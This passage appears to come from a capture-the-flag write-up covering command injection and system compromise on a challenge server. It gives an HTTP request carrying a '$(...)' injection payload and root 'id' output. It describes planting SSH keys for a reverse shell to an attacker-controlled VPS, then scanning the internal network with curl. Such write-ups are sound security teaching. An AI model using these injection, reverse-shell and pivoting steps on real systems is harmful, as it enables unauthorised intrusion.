 Eventually I considered that the vulnerability may not be in the update request, but the parameter itself. Soon after this thought, I identified that the parameter was vulnerable to simple command injection using the `$(<command>)` sequence.

```HTTP
GET /update?update_host=$(echo+Hello+World)198.211.125.160&port=80 HTTP/1.1
Host: 104.196.12.98
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://104.196.12.98/main
Connection: close
Cookie: session=eyJsb2dnZWRJbiI6dHJ1ZX0.XIJAHQ.604xiUcoHwNGwnR5oPQ7kq2Rmak
Upgrade-Insecure-Requests: 1
```

This allowed me to move onto the next stage and attempt to further compromise the server.

#### Tools
* [wordlist_generator.py](https://gist.github.com/ajxchapman/b7baca094e61ff120c44379029646b97#file-wordlist_generator-py)
* [httplib.py](https://gist.github.com/ajxchapman/b7baca094e61ff120c44379029646b97#file-httplib-py)

### Summary of Issues:
* Non-constant time credential comparison leading to authentication bypass
* Unlisted query parameters accessible
* Command injection

## Stage 5 - System Compromise
The first thing I do when getting command injection is to identify the user the command is running as, in this case on a Linux server via the `id` command:
```shell
uid=0(root) gid=0(root) groups=0(root)
```
Well that was easy, no need to go looking for privilege escalation issues in this instance.

In order to assist in the assessment of the server I used my [SSHReverseShell](https://github.com/ajxchapman/sshreverseshell) tool, creating new SSH keys on the server using the `ssh-keygen` command, and connecting a reverse ssh shell back to a VPS I controlled. This gave me secure full TTY shell on the compromised server with which to explore further. After finding few files of interest (barring the source code to the previous level of course F439685), I went looking at the network.

```sh
ip address
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
188: eth0@if189: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:ac:1b:00:03 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.27.0.3/16 brd 172.27.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```
This showed that the compromised host was on the `172.27.0.3/16` private network. Using `curl` as a rudimentary portscanner I quickly found that I could only obviously route network traffic to 3 hosts in this network range. Further more I identified HTTP servers on all 3 of the routable hosts.
